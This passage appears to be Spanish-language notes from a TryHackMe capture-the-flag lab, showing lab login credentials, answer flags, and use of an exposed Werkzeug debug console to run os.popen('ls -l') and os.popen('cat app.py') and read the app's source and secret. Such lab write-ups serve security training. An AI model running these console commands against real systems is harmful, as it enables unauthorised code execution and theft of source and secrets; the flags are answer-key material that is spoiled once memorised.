 - login con los datos
joseph
frexdJRE3w0gmA
- ver en las notas

THM{Not_3ven_c4tz_c0uld_sav3_U!}

## Task 12 - 5. Security Misconfiguration

#### Navigate to [http://10.10.4.17:86/console](http://10.10.4.17:86/console) to access the Werkzeug console.

- vamos a la consola, tecleamos algo de pyton para probar
http://10.10.4.17:86/console
```
[console ready]
>>> print('hola mundo')
hola mundo
>>> 
```

#### What is the database file name (the one with the .db extension) in the current directory?

	todo.db

```
>>> import os; print(os.popen("ls -l").read())
total 24
-rw-r--r--    1 root     root           249 Sep 15  2022 Dockerfile
-rw-r--r--    1 root     root          1411 Feb  3  2023 app.py
-rw-r--r--    1 root     root           137 Sep 15  2022 requirements.txt
drwxr-xr-x    2 root     root          4096 Sep 15  2022 templates
-rw-r--r--    1 root     root          8192 Sep 15  2022 todo.db
```

#### Modify the code to read the contents of the `app.py` file, which contains the application's source code. What is the value of the `secret_flag` variable in the source code?

	THM{Just_a_tiny_misconfiguration}

```
>>> import os; print(os.popen("cat app.py").read())
import os
from flask import Flask, render_template, request, redirect, url_for
from flask_sqlalchemy import SQLAlchemy

secret_flag = "THM{Just_a_tiny_misconfiguration}"

PROJECT_ROOT = os.path.dirname(os.path.realpath(__file__))
DATABASE = os.path.join(PROJECT_ROOT, 'todo.db')

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = "sqlite:////" + DATABASE
db = SQLAlchemy(app)


class Todo(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    title = db.Column(db.String(80))
    complete = db.Column(db.Boolean)


@app.route("/")
def index():
    todo_list = Todo.query.all()
```